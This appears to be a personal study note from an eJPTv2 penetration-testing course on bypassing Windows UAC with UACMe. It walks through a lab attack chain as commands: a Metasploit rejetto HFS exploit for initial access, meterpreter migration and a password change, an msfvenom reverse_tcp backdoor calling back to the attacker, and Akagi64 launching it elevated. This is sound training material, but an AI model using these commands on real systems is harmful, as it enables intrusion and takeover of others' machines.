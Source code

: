 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Host & Network Penetration Testing/System - Host Based Attacks/Windows Privilege Escalation/Windows Privilege Escalation]]"
tools:
  - "[[UACMe]]"
---
```


# Bypassing UAC

- User Account Control
- Windows security feature to prevent unauthorized changes made to the OS
- UAC is used to ensure that changes to the OS require approval
- Attacks can bypass UAC in order to execute commands with elevated privileges

- In order to bypass UAC we need to have access to a user account that is part of the `local administrators` group on the target system
- UAC has various integrity level ranging from `low` to `high`. If the UAC protection level is set below `high` the user will not be prompted
- There are multiple tools and techniques that can be used however it will depends on the target version

## UACMe

- [[UACMe]] is an open source privilege escalation tool
- The repository contains a very well documented list of methods ranging from Windows 7 to 10 and contains 60+ exploits
- It allows attackers to execute malicious payloads with admin privileges by abusing the inbuilt Windows AutoElevate tool

## Demonstration

```bash
# list users
> net users
# list users in group
> net localgroup administrators
```

To gain initial access we first need to find a vulnerable service:

```bash
nmap $TRG
```

The target is running vulnerable rejetto app

```bash
> use exploit/windows/http/rejetto_hfs_exec
meterpreter > sysinfo
meterpreter > pgrep explorer
meterpreter > migrate <port>
meterpreter > sysinfo
meterpreter > getuid
meterpreter > getprivs
meterpreter > shell
>net user
>net localgroup administrators
# change user password
meterpreter > net user admin password123
```

UACMe:

```bash
akagi32 [key] [param]
akagi64 [key] [param]
```

Generate

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<my_ip> LPORT=1234 -f exe > backdoor.exe
```

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST
set LPORT
```

Always upload executables to /Temp directory

```bash
.\Akagi64.exe 23 C:\Temp\backdoor.exe
```

Then migrate to a more privileged process listed by the `ps` and `migrate` commands
